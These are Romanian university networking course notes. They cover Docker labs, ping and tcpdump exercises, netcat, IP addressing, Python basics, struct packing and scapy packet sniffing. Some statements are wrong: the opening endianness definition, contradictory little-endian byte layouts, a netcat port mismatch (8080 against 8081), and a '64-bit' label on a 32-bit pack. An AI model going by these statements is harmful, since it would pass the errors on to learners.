

# Notițe Retele

## [0]

```
NIC - Network Interface Controller (placa de retea)
ifconfig -> eth0 -> placa de retea
          -> lo -> local loopback,
          -> ether -> mac-ul
          -> inet -> ipv4

Netmask -> masca cu care imparti in subneturi

Calcul nr networks:
2^(lungime netmask - nr segmente folosite) - 2

Calcul nr hosts:
2^(nr zerouri) - 2

```
Prefix notation:


MTU -> maximum transmission unit -> dimensiunea in bytes a pachetului maxim
x.x.x.x/nr -> primii nr biti sufix de retea, restul folositi pt atribuit ipuri

big endian -> network order -> cel mai semnificativ bit are adresa cea mai mare. flip la octeti nu la biti in sine.

16: 00010000
* Big Endian este: 00000000 00010000 
* Little Endian este: 00010000 00000000 

# Capitolul 0 - Getting familiarized


## Introducere Docker
Un container (sau serviciu) docker poate fi pornit (în mod asemănător cu o mașină virtuală) cu o imagine cu un sistem de operare. Un container seamănă mai mult cu un **proces** decât cu o mașină virtuală. Acesta nu emulează componente hardware, ci execută apeluri sistem cu dependințele necesare rulării unei aplicații. 

Microservices vs monolithic architecture:

([img credits](https://avinetworks.com/glossary/microservice/))

Containerization:
([img credits](https://www.youtube.com/watch?v=TvnZTi_gaNc))

### Building a docker image
Pentru a construi imaginea explicit, putem folosi [docker build](https://docs.docker.com/engine/reference/commandline/build/). Comanda build utilizează fișierul [./docker/Dockerfile]() care definește ce sistem de operare va fi utilizat de container, ce aplicații vor fi pre-instalate și ce useri vor exista pe containerele care rulează acea imagine.
```bash
docker build -t retele:latest -f ./docker/Dockerfile .

# tag-ul imaginii (nume:versiune)
-t retele:latest

# calea catre fisierul dockerfile
-f ./docker/Dockerfile 

# contextul in care se executa docker build
.
```
Contextul este directorul în care se execută construcția imaginii. În fișierul Dockerfile se poate specifica [copierea explicită](https://docs.docker.com/engine/reference/builder/) a unor fișiere / date din directorul local, iar contextul reprezintă directorul în funcție de care se pot specifica căi relative în dockerfile.


### Orchestrate containers with docker-compose
Comanda [docker-compose up -d](https://docs.docker.com/compose/reference/up/), va citi fișierul **docker-compose.yml** din path-ul de unde rulăm comanda și va lansa containere după cum sunt definite în fișier în secțiunea *services*: rt1, rt2, etc..
Containere care sunt configurate să ruleze o imagine dată (în cazul nostru *baseimage*, imaginea construită la pasul anterior) sunt conectate la o rețea (în cazul nostru rețeaua *dmz*) sau și au definite [un mount point](https://unix.stackexchange.com/questions/3192/what-is-meant-by-mounting-a-device-in-linux) local.
Comanda docker-compose pe linux nu se instalează default cu docker, ci trebuie [să o instalăm separat](https://docs.docker.com/compose/install/). În cazul nostru, comanda se găsește chiar în directorul computer-networks, în acest repository. 

Aplicația docker-compose [va descărca din registry](https://hub.docker.com/repository/docker/snisioi/retele) imaginea corespunzătoare pentru acest laborator. Imaginea se numește retele și are tag-ul 2021, cu versiunea pentru acest an.
```bash
cd capitolul0
# start services defined in docker-compose.yml
docker-compose up -d
```

## Basic commands
```bash
# list your images
docker image ls
# sau
docker images

# stop services
docker-compose down

# see the containers running
docker ps
docker-compose ps

# kill a container
docker kill $CONTAINER_ID

# see the containers not running
docker ps --filter "status=exited"

# remove the container
docker rm $CONTAINER_ID

# list available networks
docker network ls

# inspect network
docker network inspect $NETWORK_ID

# inspect container
docker inspect $CONTAINER_ID

# see container ip
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' $CONTAINER_ID

# attach to a container
docker exec -it $CONTAINER_ID bash

# attach using docker-compose
docker-compose exec rt1 bash

# attach as root to a container
docker-compose exec --user root rt1 bash
```

<a name="clean_all"></a> 
### Remove images and containers

Ștergeți toate containerele create și resetați modificările efectuate în branch-ul local de git.
```bash
# pentru a opri toate containerele
docker stop $(docker ps -a -q)
# pentru a șterge toate containerele
docker rm $(docker ps -a -q)
# pentru a șterge toate rețelele care nu au containere alocate
docker network prune
# pentru a șterge containere si imagini
docker system prune

# pentru a șterge toate imaginile de docker (!!!rulați doar dacă știți ce face)
docker rmi $(docker images -a -q)
```


### Docker References
- [docker concepts](https://docs.docker.com/engine/docker-overview/#docker-engine)
- [docker-compose](http://docker-k8s-lab.readthedocs.io/en/latest/docker/docker-compose.html)
- [Compose Networking](https://runnable.com/docker/docker-compose-networking)
- [Designing Scalable, Portable Docker Container Networks](https://success.docker.com/article/Docker_Reference_Architecture-_Designing_Scalable,_Portable_Docker_Container_Networks)
- [Docker Networking Cookbook](https://github.com/TechBookHunter/Free-Docker-Books/blob/2020/book/Docker%20Networking%20Cookbook.pdf)


## NIC - Network Interface Controller (Placa de rețea)
```bash
# executați un shell în containerul rt1
docker-compose exec rt1 bash

# listați configurațiile de rețea
ifconfig

### eth0 - Ethernet device to communicate with the outside  ###
# eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
#        inet 172.27.0.3  netmask 255.255.0.0  broadcast 0.0.0.0
#        ether 02:42:ac:1b:00:03  txqueuelen 0  (Ethernet)
# lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
#        inet 127.0.0.1  netmask 255.0.0.0
#        loop  txqueuelen 1000  (Local Loopback)
```

Comanda *ifconfig* ne indică două device-uri care rulează pe containerul *rt1*:

- [*eht0*](http://www.tldp.org/LDP/nag/node67.html#SECTION007720000) - placa de rețea Ethernet virtuală care indică configurația pentru stabilirea unei conexiuni de rețea a containerului.
- [*lo*](https://askubuntu.com/questions/247625/what-is-the-loopback-device-and-how-do-i-use-it) - local Loopback device definește categoria de adrese care se mapează pe localhost.
- Ce reprezintă [ether](https://en.wikipedia.org/wiki/MAC_address) si [inet](https://en.wikipedia.org/wiki/IPv4)?
- Ce este [netmask](https://www.computerhope.com/jargon/n/netmask.htm)?
- Netmask și Subnet cu [prefix notation](https://www.ripe.net/about-us/press-centre/IPv4CIDRChart_2015.pdf)?
- Maximum Transmission Unit [MTU](https://en.wikipedia.org/wiki/Maximum_transmission_unit) dimensiunea în bytes a pachetului maxim

<a name="exercițiu1"></a>
### Exercițiu
Modificați docker-compose.yml pentru a adaugă încă o rețea și încă 3 containere atașate la rețeaua respectivă. Modificați definiția container-ului rt1 pentru a face parte din ambele rețele. 
Exemplu de rețele:
```bash
networks:
    dmz:
        ipam:
            driver: default
            config:
                - subnet: 172.111.111.0/16 
                  gateway: 172.111.111.1
    net:
        ipam:
            driver: default
            config:
                - subnet: 198.13.13.0/16
                  gateway: 198.13.13.1
```
Ce se intamplă dacă constrângeți subnet-ul definit pentru a nu putea permite mai mult de 4 ip-uri într-o rețea.

<a name="ping"></a>
### Ping
Este un tool de networking care se foloseste de [ICMP](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol) pentru a verifica dacă un host este conectat la o rețea prin IP.

```bash
# ping localhost and loopback
ping localhost

ping 127.0.0.1

ping 127.0.2.12

# ping neighbour from network dmz
ping 172.111.0.3

# ping broadcast from network dmz
ping -b 172.111.255.255

# ping neighbour from network net
ping 198.13.13.1
```

1. Când rulați ping, utilizați opțiunea -R pentru a vedea și calea pe care o efectuează pachetul.

2. Ce reprezintă adresa 127.0.2.12? De ce funcționează ping către aceasta?

3. Într-un terminal nou, rulați comanda `docker network inspect computernetworks_dmz` pentru a vedea ce adrese au celelalte containere. Încercați să trimiteți un ping către adresele IP ale celorlalte containere.

4. Folosiți `docker stop` pentru a opri un container, cum arată rezultatul comenzii `ping` către adresa IP a containerului care tocmai a fost oprit?

4. Rețelele dmz și net au în comun containerul rt1. Un container din rețeaua dmz primește răspunsuri la ping de la containere din rețeaua net?

5. Folosiți opțiunea `-c 10` pentru a trimite un număr fix de pachete.

6. Folosiți opțiunea `-s 1000` pentru a schimba dimensiunea pachetului ICMP

7. Reporniți toate containerele. Cum arată rezultatele pentru `ping -M do -s 30000 172.111.0.4`? Care este rezultatul dacă selectați dimensiunea 1500?

8. Opțiunea `-f` este folosită pentru a face un flood de ping-uri.  Rulați un shell cu user root, apoi `ping -f 172.111.0.4`. Separat, într-un alt terminal rulați `docker stats`. Ce observați?

<a name="ping_block"></a>
De multe ori răspunsurile la ping [sunt dezactivate](https://superuser.com/questions/318870/why-do-companies-block-ping) pe servere. Pentru a dezactiva răspunsul la ping rulați userul root: `echo "1" > /proc/sys/net/ipv4/icmp_echo_ignore_all`. Într-un container de docker nu aveți dreptul să modificați acel fișier și veți primi o eroare. Putem, în schimb, modifica structura containerului din *docker-compose.yml* și-i putem adăuga pe lângă image, networks, volumes, tty, o opțiune de [sysctls](https://docs.docker.com/compose/compose-file/compose-file-v2/#sysctls):
```
    rt1:
        ..........
        sysctls:
          - net.ipv4.icmp_echo_ignore_all=1
```


<a name="tcpdump_install"></a>
###  tcpdump
Este un tool care vă permite monitorizarea traficului de pe containerul/mașina pe care vă aflați. Vom folosi *tcpdump* pentru a monitoriza traficul generat de comanda ping. Pentru a rula tcpdump, trebuie să ne atașam unui container cu user **root** apoi putem rula:
```bash
tcpdump -Sntv
```

Dacă în urma rulării acestei comenzi nu apare nimic, înseamnă că în momentul acesta interfața dată pe containerul respectiv nu execută operații pe rețea. Pentru a vedea ce interfețe (device-uri) putem folosi pentru a capta pachete, putem rula:
```bash
tcpdump -D
```

<a name="tcpdump_exer"></a>
### Exerciții
1. În containerul rt1 rulați `tcpdump -n`. În containerul rt2 rulați `ping -c 1 rt1`. Ce trasături observați la pachetul ICMP? Ce observați dacă rulați `ping -c 1 -s 2000 rt1`?

2. Rulați aceleasi ping-uri dar acum monitorizați pachetele cu `tcpdump -nvtS`. Ce detalii observați în plus? Dar dacă adăugați opțiunea `tcpdump -nvtSXX`?

3. Pentru a vedea și header-ul de ethernet, adăugați opțiunea `-e` la tcpdump.

4. În rt1 monitorizați traficul cu `tcpdump -nevtSXX` Într-un alt terminal, rulați un shell tot pe containerul rt1 apoi dați `ping -c 1 yahoo.com`. Ce adrese MAC și IP sunt folosite pentru a trimite requestul ICMP? Câte pachete sunt captate în total?

5. În loc de ultimul ping, generați trafic la nivelul aplicație folosind `wget https://github.com/senisioi/computer-networks/`. Comparați continutul pachetului cu un request HTTP: `wget http://moodle.fmi.unibuc.ro`. Observați diferența dintre HTTP si HTTPS la nivel de pachete.

6. Puteți deduce din output-ul lui tcpdump care este adresa IP a site-ului github.com sau moodle.fmi.unibuc.ro? Ce reprezintă adresa MAC din cadrul acelor request-uri?

7. Captând pachete, ați putut observa requesturi la o adresă de tipul 239.255.255.255? Mai multe detalii [aici](https://en.wikipedia.org/wiki/IP_multicast).


###### TCP/IP stack
```
                     ----------------------------
                     |    Application (HTTP+S)  |
                     |                          |
                     |...  \ | /  ..  \ | /  ...|
                     |     -----      -----     |
                     |     |TCP|      |UDP|     |
                     |     -----      -----     |
                     |         \      /         |
                     |         --------         |
                     |         |  IP  |         |
                     |  -----  -*------         |
                     |  |ARP|   |               |
                     |  -----   |               |
                     |      \   |               |
                     |      ------              |
                     |      |ENET|              |
                     |      ---@--              |
                     ----------|-----------------
                               |
         ----------------------o---------
             Ethernet Cable

                  Basic TCP/IP Network Node
```

Diferite opțiuni pentru tcpdump:
```bash
# -c pentru a capta un numar fix de pachete
tcpdump -c 20

# -w pentru a salva pachetele într-un fișier și -r pentru a citi fișierul
tcpdump -w pachete.pcap
tcpdump -r pachete.pcap

# pentru a afișa doar pachetele care vin sau pleacă cu adresa google.com
tcpdump host google.com

# folosiți -XX pentru a afișa și conținutul în HEX și ASCII
tcpdump -XX

# pentru un timestamp normal
tcpdump -t

# pentru a capta pachete circula verbose
tcpdump -vvv

# indică interfața pe care o folosim pentru a capta pachete, în cazul acesta eth0 
tcpdump -i

# afișarea headerului de ethernet
tcpdump -e

# afișarea valorilor numerice ale ip-urilo în loc de valorile date de nameserver
tcpdump -n

# numărul de secvență al pachetului 
tcpdump -S
```

 - Întrebare: este posibil să captați pachetele care circulă între google.com și rt2 folosind mașina rt1?
 - Pentru mai multe detalii puteteți urmări acest [tutorial](https://danielmiessler.com/study/tcpdump/) sau [alte exemple](https://www.rationallyparanoid.com/articles/tcpdump.html)
 - Pentru exemple de filtrare mai detaliate, puteți urmări si [acest tutorial](https://forum.ivorde.com/tcpdump-how-to-to-capture-only-icmp-ping-echo-requests-t15191.html)
 - Trucuri de [filtare avansată](https://www.wains.be/pub/networking/tcpdump_advanced_filters.txt)


# Capitolul 1 - Programming Basics

## Cuprins
- [Network Stacks](#stacks)
- [Introducere și IDE](#intro)
  - [utils](#utils)
  - [python3 basics](#basics)
  - [Exerciții python](#exercitii_python)
- [Big Endian (Network Order) vs. Little Endian](#endianness)
- [Python Bytes as C Types](#ctypes)
- [Funcția sniff și în scapy](#scapy_sniff)


<a name="stacks"></a> 
## Network Stacks
Stiva OSI:


Stiva TCP IP:


<a name="utils"></a>
## netcat
netcat este un utilitar de retea folosit pentru a trimite/citi mesaje pe conexiuni. Exemplul urmator este pentru a simula o comunicare de baza server / client.
Se instaleaza folosind `[sudo] apt-get install netcat`.

### Server
`nc -l 8081`

Aceasta comanda va deschide un socket pe portul 8081 si asculta pentru noi conexiuni.
Noul proces se poate vedea folosind comanda `lsof -i -P | grep LISTEN` avand un output asemanator cu acesta: 
```
nc      2527 ubuntu    3u  IPv4  69208      0t0  TCP *:8081 (LISTEN)
```
Ni se specifica numele executabilului, process ID-ul iar in final protocolul de la nivelul transport si port-ul pe care asculta.

### Client
`echo "salut" | nc 127.0.0.1 8080`
Clientul va trimite folosind un pipe "|" (o metoda de a redirectiona output-ul unui proces catre input-ul altui proces in linux) mesajul "salut" catre ip-ul de loopback pe portul pe care ruleaza si serverul. In terminalul in care ruleaza serverul vom observa ca acesta a primit mesajul.


## traceroute
Este un utilitar pentru a vizualiza drumul pe care un pachet il parcurge pentru a ajunge la destinatie si a descoperi eventualele intarzieri. 
Se foloseste dand ca input un domeniu
```
ubuntu@ubun2004:~$ traceroute www.google.ro
traceroute to www.google.ro (142.250.185.163), 30 hops max, 60 byte packets
 1  _gateway (192.168.13.2)  0.399 ms  0.366 ms  0.328 ms
 2  192.168.100.2 (192.168.100.2)  0.667 ms  0.644 ms  0.820 ms
 3  StamAcasa.rdsnet.ro (10.0.0.1)  2.802 ms  2.782 ms  2.749 ms
 4  TotulVaFiBine.rdsnet.ro (172.19.211.1)  4.249 ms  4.229 ms  4.217 ms
 5  10.220.153.20 (10.220.153.20)  19.676 ms * *
 6  72.14.216.212 (72.14.216.212)  19.615 ms  19.753 ms  17.989 ms
 7  * 74.125.242.227 (74.125.242.227)  17.081 ms 10.23.192.126 (10.23.192.126)  19.847 ms
 8  216.239.41.57 (216.239.41.57)  32.737 ms  32.715 ms 72.14.233.180 (72.14.233.180)  17.316 ms
 9  108.170.226.2 (108.170.226.2)  33.542 ms  33.990 ms  33.970 ms
10  108.170.251.193 (108.170.251.193)  36.129 ms * 108.170.236.247 (108.170.236.247)  31.870 ms
11  209.85.252.215 (209.85.252.215)  32.228 ms 142.250.210.197 (142.250.210.197)  33.306 ms 142.250.210.209 (142.250.210.209)  32.633 ms
12  108.170.252.65 (108.170.252.65)  34.098 ms fra16s51-in-f3.1e100.net (142.250.185.163)  31.214 ms 108.170.252.65 (108.170.252.65)  32.272 ms
```
Mesajele trec prin mai multe routere sau servere chiar daca totul se intampla foarte repede. Internetul este format dintr-o multime de retele interconectate intre ele prin routere care stiu sa ghideze pachetele dupa IP destinatie.

## Adresele IP

O adresa IP este compusa din 4 campuri a cate un byte de exemplu `192.168.5.1` avand reprezentarea binara `11000000.10100100.00000101.00000001`. Fiecare retea, fie ea publica sau privata, are o adresa de retea si o masca care desparte un IP intr-un prefix de retea si un sufix de host. Se noteaza `192.168.5.0/24` si inseamana ca primii 24 de biti din IP sunt fixi iar ceilalti poti fi folositi pentru a atribui IP-uri dispozitivelor din retea. Retaua aceasta are urmatorul range `192.168.5.1 - 192.168.5.255` 
Masca poate fi reprezentata si de forma unei adrese IP dupa urmatoarea regula: toti bitii fixi au valoarea 1, restul au valoarea 0. Masca de 24 ar avea reprezentarea binara `11111111.11111111.11111111.00000000` si in format human readable `255.255.255.0`.

### Exercitii
- Care este intervalul de IP-uri al adresei de retea `64.183.234.9/15`
- Cate IP-uri pot fi atribuite in reteaua `192.168.0.0/16`
- Care este ultimul IP din reteaua `164.88.24.37/29`

### Observatii
- Utlimul IP din orice retea este cel de broadcast
- IP-ul retelei nu poate fi atribuit

<a name="intro"></a> 
## Introducere și IDE
În cadrul acestui capitol vom lucra cu [python](http://www.bestprogramminglanguagefor.me/why-learn-python), un limbaj de programare simplu pe care îl vom folosi pentru a crea și trimite pachete pe rețea. Pentru debug și autocomplete, este bine să avem un editor și [IDE pentru acest limbaj](https://wiki.python.org/moin/IntegratedDevelopmentEnvironments). În cadrul orelor vom lucra cu [Visual Studio Code](https://code.visualstudio.com/), dar puteți lucra cu orice alt editor. 

<a name="basics"></a> 
### [python3 basics](https://www.tutorialspoint.com/python/python_variable_types.htm)
```python
# comment pentru hello world
variabila = 'hello "world"'
print (variabila)

# int:
x = 1 + 1

# str:
xs = str(x) + ' ' + variabila

# tuplu
tup = (x, xs)

# lista
l = [1, 2, 2, 3, 3, 4, x, xs, tup]
print (l[2:])

# set
s = set(l)
print (s)
print (s.intersection(set([4, 4, 4, 1])))

# dict:
d = {'grupa': 123, "nr_studenti": 10}
print (d['grupa'], d['nr_studenti'])
```

#### [for](https://www.tutorialspoint.com/python/python_for_loop.htm) și [while](https://www.tutorialspoint.com/python/python_while_loop.htm)
```python
lista = [1,5,7,8,2,5,2]
for element in lista:
    print (element)

for idx, element in enumerate(lista):
    print (idx, element)

for idx in range(0, len(lista)):
    print (lista[idx])

idx = 0
while idx < len(lista):
    print (lista[idx])
    idx += 1 
```

#### [if else](https://www.tutorialspoint.com/python/python_if_else.htm)
```python
'''
   comment pe
   mai multe
   linii
'''
x = 1
y = 2
print (x + y)
if (x == 1 and y == 2) or (x==2 and y == 1):
    print (" x e egal cu:", x, ' si y e egal cu: ', y)
elif x == y:
    print ('sunt la fel')
else:
    print ("nimic nu e adevarat")
```

#### [funcții](https://www.tutorialspoint.com/python/python_functions.htm)
```python
def functie(param = 'oooo'):
    '''dockblock sunt comments in care explicam
    la ce e buna functia
    '''
    return "whooh " + param + "!"

def verifica(a, b):
    ''' aceasta functie verifica
    o ipoteza interesanta
    '''
    if (a == 1 and b == 2) or (a==2 and b == 1):
        return 1
    elif a == b:
        return 0
    return -1
```

#### [module](https://www.tutorialspoint.com/python/python_modules.htm)
```python
import os
import sys
import logging
from os.path import exists
import time

logging.basicConfig(format = u'[LINE:%(lineno)d]# %(levelname)-8s [%(asctime)s]  %(message)s', level = logging.NOTSET)
logging.info("Mesaj de informare")
logging.warn("Mesaj de warning")
logging.error("Mesaj de eroare")
try:
    1/0
except:
    logging.exception("Un mesaj de exceptie!")

program_name = sys.argv[0]
print (program_name)
print ("Exista '/elocal'?", exists('/elocal'))
print (os.path.join('usr', 'local', 'bin'))

for element in "hello world":
    sys.stdout.write(element)
    sys.stdout.flush()
    time.sleep(1)
```

#### [main](https://stackoverflow.com/questions/4041238/why-use-def-main)
```python
def main():
    print ("functia main")

# un if care verifică dacă scriptul este importat sau apelat ca main
if __name__ == '__main__':
    main()
```

#### [clase](https://www.tutorialspoint.com/python/python_classes_objects.htm)
```python
class Grupa:
    nume = 'grp'
    def __init__(self, nume, numar_studenti):
        self.nume = nume
        self.numar_studenti = numar_studenti
    def _metoda_protected(self):
        print ("da")
    def __metoda_privata(self):
        print ('nu')
    def metoda_publica(self):
        print ("yes")


g = Grupa('222', '21')
print (g.nume)
print (g.numar_studenti)
print (Grupa.nume)
```

<a name="exercitii_python"></a>
### Exerciții python
1. Creați un script de python care printează toate literele unui text, câte o literă pe secunda, folosind `time.sleep(1)`.
2. Rulați scriptul anterior într-un container.
3. Folosind [command](https://docs.docker.com/compose/compose-file/compose-file-v2/#command), modificați docker-compose.yml din capitolul0 pentru a lansa acel script ca proces al containerului.


<a name="endianness"></a>
## [Big Endian (Network Order) vs. Little Endian](https://en.m.wikipedia.org/wiki/Endianness#Etymology)

Numarul 16 se scrie in binar: `10000 (2^4)`, deci numărăm biții de la dreapta la stânga. 
Dacă numărul ar fi stocat într-un tip de date pe 8 biți, s-ar scrie: `00010000`
Dacă ar fi reprezentat pe 16 biți, s-ar scrie: `00000000 00010000`, completând cu 0 pe pozițiile mai mari până obținem 16 biți.

În calculatoare există două tipuri de reprezentare a ordinii octeților: 
- **Big Endian** este: 00000000 00010000
  - cel mai semnificativ bit are adresa cea mai mică, octet 0: 00010000, octet 1: 00000000
- **Little Endian** este: 00010000 00000000
  - cel mai semnificativ bit are adresa cea mai mare, octet 0: 00000000, octet 1: 00010000

Pe rețea mesajele transmise trebuie să fie reprezentate într-un mod standardizat, independent de reprezentarea octeților pe mașinile de pe care sunt trimise, și acest standard este dat de Big Endian sau **Network Order**.

Pentru a verifica ce endianness are calculatorul vostru puteti rula din python:
```python
import sys
print(sys.byteorder)
```


<a name="ctypes"></a> 
## Python Bytes as C Types
În python există [modulul struct](https://docs.python.org/3.0/library/struct.html) care face conversia din tipul de date standard al limbajului în bytes reprezentând tipuri de date din C. Acest lucru este util fiindcă în cadrul rețelelor vom avea de configurat elemente low-level ale protocoalelor care sunt restricționate pe lungimi fixe de biți. Ca exemplu, headerul UDP este structurat din 4 cuvinte de 16 biți (port sursă, port destinație, lungime și checksum):
```python
import struct

# functia pack ia valorile date ca parametru si le "impacheteaza" dupa un tip de date din C dat
struct.pack(formatare, val1, val2, val3)

# functia unpack face exact opusul, despacheteaza un sir de bytes in variabile dupa un format 
struct.unpack(formatare, sir_de_bytes)
```

#### Tipuri de formatare:

|Format Octeti|Tip de date C|Tip de date python|Nr. biți|Note|
|--- |--- |--- |--- |--- |
|`x`|pad byte|no value|8||
|`c`|char|bytes of length 1|8||
|`b`|signed char|integer|8|(1)|
|`B`|unsigned char|integer|8||
|`?`|_Bool|bool||(2)|
|`h`|short|integer|16||
|`H`|unsigned short|integer|16||
|`i`|int|integer|32||
|`I`|unsigned int|integer|32||
|`l`|long|integer|32||
|`L`|unsigned long|integer|32||
|`q`|long long|integer|64|(3)|
|`Q`|unsigned long long|integer|64|(3)|
|`f`|float|float|32||
|`d`|double|float|64||
|`s`|char[]|bytes||(1)|
|`p`|char[]|bytes||(1)|
|`P`|void *|integer|||

Note:
<ol class="arabic simple">
<li>The <tt class="docutils literal"><span class="pre">c</span></tt>, <tt class="docutils literal"><span class="pre">s</span></tt> and <tt class="docutils literal"><span class="pre">p</span></tt> conversion codes operate on <a title="bytes" class="reference external" href="functions.html#bytes"><tt class="xref docutils literal"><span class="pre">bytes</span></tt></a>
objects, but packing with such codes also supports <a title="str" class="reference external" href="functions.html#str"><tt class="xref docutils literal"><span class="pre">str</span></tt></a> objects,
which are encoded using UTF-8.</li>
<li>The <tt class="docutils literal"><span class="pre">'?'</span></tt> conversion code corresponds to the <tt class="xref docutils literal"><span class="pre">_Bool</span></tt> type defined by
C99. If this type is not available, it is simulated using a <tt class="xref docutils literal"><span class="pre">char</span></tt>. In
standard mode, it is always represented by one byte.</li>
<li>The <tt class="docutils literal"><span class="pre">'q'</span></tt> and <tt class="docutils literal"><span class="pre">'Q'</span></tt> conversion codes are available in native mode only if
the platform C compiler supports C <tt class="xref docutils literal"><span class="pre">long</span> <span class="pre">long</span></tt>, or, on Windows,
<tt class="xref docutils literal"><span class="pre">__int64</span></tt>.  They are always available in standard modes.</li>
</ol>

Metodele de pack/unpack sunt dependente de ordinea octeților din calculator. Pentru a seta un anumit tip de endianness cand folosim funcțiile din struct, putem pune înaintea formatării caracterele următoare:

|Caracter|Byte order|
|--- |--- |
|@|native|
|<|little-endian|
|>|big-endian|
|!|network (= big-endian)|


### Exemple

```python
numar = 16
# impachetam numarul 16 intr-un 'unsigned short' pe 16 biti cu network order
octeti = struct.pack('!H', numar)
print("Network Order: ")
for byte in octeti:
    print (bin(byte))


# impachetam numarul 16 intr-un 'unsigned short' pe 16 biti cu Little Endian
octeti = struct.pack('<H', numar)
print("Little Endian: ")
for byte in octeti:
    print (bin(byte))

# B pentru 8 biti, numere unsigned intre 0-256
struct.pack('B', 300)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
struct.error: ubyte format requires 0 <= number <= 255

# string de 10 bytes, sunt codificati primii 10 si 
# restul sunt padded cu 0
struct.pack('10s', 'abcdef'.encode('utf-8'))
b'abcdef\x00\x00\x00\x00'


# numarul 256 packed in NetworkOrder pe 64 de biti
struct.pack('!L', 256)
b'\x00\x00\x01\x00'

# numarul 256 packed in LittleEndian pe 64 de biti
struct.pack('<L', 256)
b'\x00\x01\x00\x00'


operator = '+'.encode('utf-8')
# encode 12+13 as byte string
# 32-bit network order integers and 1 byte-char operator
octeti = struct.pack('!IcI', 12, operator, 13)
print(octeti)
# b'\x00\x00\x00\x0c+\x00\x00\x00\r'
valori = struct.unpack('!IcI', octeti)
print(valori)
# (12, b'+', 13)

# Atentie!
# accesarea unui singur octet returneaza valoarea lui ca numar
print(octeti[4]) # 43 echivalent cu codul ascii pt '+'
# slicing returneaza stringul de bytes
print(octeti[4:5]) # b'+' echivalent cu codul ascii pt '+'
```


<a name="scapy_sniff"></a> 
## Funcția sniff în scapy
[scapy](https://github.com/secdev/scapy) este o librărie care acoperă o serie mare de funcționalități ce pot fi implementate programatic. Principalele features sunt cele de creare și manipulare a pachetelor, dar și aceea de a capta pachetele care circulă pe rețea. Pentru a scana pachetele care circulă, similar cu tcpdump, există funcția `sniff`. Pentru a instala librăria, folosim pipy:
```bash
pip install --pre scapy[complete]
```

Captarea pachetelor se face folosind **sniff**:
```python
pachete = sniff()
# Trimiteti de pe router un mesaj UDP catre server: sendto(b'salut', ('server', 2222)) 
# Apasati Ctrl+C pentru a opri functia care monitorizeaza pachete

<Sniffed: TCP:0 UDP:1 ICMP:0 Other:0>

pachete[UDP][0].show()

###[ Ethernet ]### 
  dst= 02:42:c6:0a:00:02
  src= 02:42:c6:0a:00:01
  type= IPv4
###[ IP ]### 
     version= 4
     ihl= 5
     tos= 0x0
     len= 33
     id= 7207
     flags= DF
     frag= 0
     ttl= 64
     proto= udp
     chksum= 0x928d
     src= 198.10.0.1
     dst= 198.10.0.2
     \options\
###[ UDP ]### 
        sport= 2222
        dport= 2330
        len= 13
        chksum= 0x8c36
###[ Raw ]### 
           load= 'salut'
```


Funcția `sniff()` ne permite să captăm pachete în cod, la fel cum am face cu [wireshark](https://www.wireshark.org/) sau tcpdump. De asemenea putem salva captura de pachete în format .pcap cu tcpdump: 
```bash
tcpdump -i any -s 65535 -w example.pcap
```
și putem încărca pachetele în scapy pentru a le procesa:
```python
packets = rdpcap('example.pcap')
for pachet in packets:
    if pachet.haslayer(ARP):
        pachet.show()
```

Mai mult, funcția sniff are un parametrul prin care putem trimite o metodă care să proceseze pachetul primit în funcție de conținut:
```python
def handler(pachet):
    if pachet.haslayer(TCP):
        if pachet[TCP].dport == 80: #or pachet[TCP].dport == 443:
            if pachet.haslayer(Raw):
                raw = pachet.getlayer(Raw)
                print(raw.load)
sniff(prn=handler)
```

Putem converti și octeții obținuți printr-un socket raw dacă știm care este primul layer (cel mai de jos):
```python
# presupunem ca avem octetii corespunzatorui unui pachet UDP in python:
raw_socket_date = b'E\x00\x00!\xc2\xd2@\x00@\x11\xeb\xe1\xc6\n\x00\x01\xc6\n\x00\x02\x08\xae\t\x1a\x00\r\x8c6salut'

pachet = IP(raw_socket_date)
pachet.show()
###[ IP ]### 
  version= 4
  ihl= 5
  tos= 0x0
  len= 33
  id= 49874
  flags= DF
  frag= 0
  ttl= 64
  proto= udp
  chksum= 0xebe1
  src= 198.10.0.1
  dst= 198.10.0.2
  \options\
###[ UDP ]### 
     sport= 2222
     dport= 2330
     len= 13
     chksum= 0x8c36
###[ Raw ]### 
        load= 'salut'
```

# Capitolul 2 - Application Layer

## Cuprins
- [Introducere](#intro)
- [Domain Name System](#dns)
- [HTTP/S requests](#https)
  - [DNS over HTTPS](#doh)
  - [Exerciții HTTP](#exercitii_http)
- [Socket API](#socket)
- [UDP](#udp)
  - [Exerciții socket UDP](#exercitii_udp)
- [TCP](#tcp)
  - [Exerciții socket TCP](#exercitii_tcp)
  - [TCP 3-way handshake](#shake)

<a name="intro"></a> 
## Introducere

În cadrul acestui capitol folosim orchestratia de containere definită [aici](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/docker-compose.yml). Pentru a rula această orchestrație, este suficient să executăm:
```bash
cd computer-networks/capitolul2
docker network prune
docker-compose up -d
```

<a name="dns"></a> 
